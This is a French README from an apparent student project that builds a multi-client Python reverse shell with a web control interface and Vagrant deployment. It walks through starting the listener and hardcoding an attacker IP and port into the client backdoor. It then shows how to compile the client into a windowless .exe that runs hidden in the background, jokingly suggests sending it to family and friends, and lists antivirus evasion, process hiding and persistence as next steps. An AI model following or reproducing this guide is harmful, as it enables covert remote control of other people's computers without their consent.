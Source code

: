 # Reverse-shell en interface Web

_Dans le cadre du projet 2020 UF infrastucture & Système d'information, nous avons réalisé un reverse shell en python avec un contrôle depuis une interface web, ainsi qu'un déploiement à l'aide de vagrant._

_Réalisé par CEBERIO Pierre **[PierreYnov](https://github.com/PierreYnov)** et USEREAU Lucas **[Saluc](https://github.com/Saluc00)** ._

![img](https://github.com/Saluc00/UF-Infra-B2/blob/master/Doc/img1.png)

## Sommaire

- [Documentation d'installation](##-documentation-dinstallation)
  - [0. Prérequis](###0-prérequis)
  - [I. Git clone](###i-git-clone)
  - [II. Vagrant](###ii-vagrant)
- [Documentation d'utilisation](##-documentation-dutilisation)
  - [Serveur](###-serveur)
  - [Client](###-client)
- [Pour aller plus loin](##-pour-aller-plus-loin)
- [Crédits](##-crédits)

## Documentation d'installation

_Manuel d'installation étape par étape du reverse shell_

### 0. Prérequis

Le projet demande trois prérequis, avoir **vagrant**, **virtualbox** et le module python **pyinstaller** d'installé sur son PC.

Disponible [ici](https://www.vagrantup.com/downloads.html) !

### I. Git clone

Cloner le repository avec la commande: `git clone https://github.com/Saluc00/UF-Infra-B2.git`.

### II. Vagrant

Suivant le port que vous souhaitez utiliser, changez le port dans le _VagrantFile_ du côté HOST !! **Important** !!

Placez-vous dans le fichier vagrant et faites la commande: `vagrant up`.

_Attendre la fin de l'initialisation du VagrantFile.._

Une fois l'installation du _VagrantFile_ ok, faites le commande `vagrant ssh`.

Pour lancer le serveur python, il se trouve dans `UF-Infra-B2\Multi-Client-Reverse-Shell`.

La commande pour UP le serveur: `python3 Listener.py`

## Documentation d'utilisation

### Serveur

Vous devez tout d'abord ouvrir un port sur votre serveur afin d'écouter dessus et permettre aux pc infectés de s'y connecter. La manière d'ouvrir un port diffère en fonction de votre OS, vous pouvez vous référer à ces liens pour Windows, OSX et Ubuntu :

- https://fr.wikihow.com/ouvrir-des-ports

- https://guide.ubuntu-fr.org/server/firewall.html

Une fois le port que vous avez choisi est ouvert, rendez vous dans le fichier Listener.py et allez à la ligne 341 remplacer le port 9999 par le votre.

Le serveur est maintenant prêt, il suffit de lancer l'écoute et attendre que les clients se connectent :

```
python3 Listener.py
```

La commande `list` permet de lister les clients actuellement connectés, il suffit ensuite de sélectionner le pc sur lequel on veut intervenir avec la commande `select` suivi de l'index du pc.

![img](https://github.com/Saluc00/UF-Infra-B2/blob/master/Doc/img2.png)

Pour quitter le shell sur le pc où l'on est, il suffit d'écrire `quit`.

Pour quitter l'interface Web du Reverse-Shell, il suffit de taper `exit`.

La commande `help` vous donnera les informations détaillés sur chaque commande.

La commande `upload` permet d'envoyer un fichier qu'on a sur le serveur, sur le client ( la commande `download` est encore en réalisation, elle fera l'inverse).

### Client

Afin d'être fonctionnel, il est nécessaire côté client (ReverseBackdoor.py) d'adresser l'IP de votre hôte (qui vous permettra de contrôler les ordinateurs ) à la ligne 164 (listenerIP) ainsi que de donner le port sur lequel écoute votre hôte à la ligne 165 (listenerPort).

_à la ligne 164 et 165:_

```python
  listenerIP = "77.202.221.174" # Ici mettre votre IP
  listenerPort = 9999 # Ici le port que vous avez mis en host dans le fichier vagrant
```

Pour compiler le ReverseBackdoor.py, vous aurez besoin de pyinstaller :

```
pip install pyinstaller
```

Tapez ensuite :

```
pyinstaller --onefile --windowed ReverseBackdoor.py
```

afin d'avoir le fichier ReverseBackdoor.exe en un seul fichier (sans librairie) et qui n'affiche aucune console quand vous l'exécutez mais qui reste en background.

Puis envoyer le fichier .exe créé à toutes votre famille et amis !

## Pour aller plus loin

- Régler les problèmes d'encodage
- Fix la commande `download`
- Avoir l'interface Web SSH sur notre serveur ( dépendance actuel de https://app.shellngn.com/ )
- Automatisation des tâches sur tout les ordinateurs qu'on contrôle ( pas en interactif à la mano, maybe tmux ? )
- FUD la backdoorReverseShell, cacher le processus et le rendre permanent.
- To be continued ...

## Crédits

- Shell python utilisé: https://github.com/mustafadalga/Multi-Client-Reverse-Shell
- Machine virtuelle utilisé sur le serveur d'AFN: https://awayfrom.network/
- Vagrant: https://www.vagrantup.com/
- VirtualBox: https://www.virtualbox.org/
- Python: https://www.python.org/
